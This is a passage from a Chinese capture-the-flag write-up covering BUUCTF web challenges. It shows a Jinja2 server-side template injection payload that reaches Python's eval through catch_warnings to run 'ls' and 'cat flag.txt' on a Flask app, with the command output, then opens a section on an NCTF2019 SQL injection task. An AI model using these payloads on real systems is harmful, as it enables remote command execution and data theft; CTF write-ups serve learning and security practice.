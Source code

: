 这里直接拿现成的payload来试试,竟然没有过滤:

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()") }}{% endif %}{% endfor %}
输出:
I ♥ Flask & application.py flag.txt requirements.txt static templates

再读取一下就出flag了:
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat flag.txt').read()") }}{% endif %}{% endfor %}
```

<br>

***

<br>

# [NCTF2019]SQLi

简单粗暴,上来连语句都给了:

<img src="/images/buuctf-web4/image-20221030090253162.png" alt="image-20221030090253162" style="zoom:67%;" />
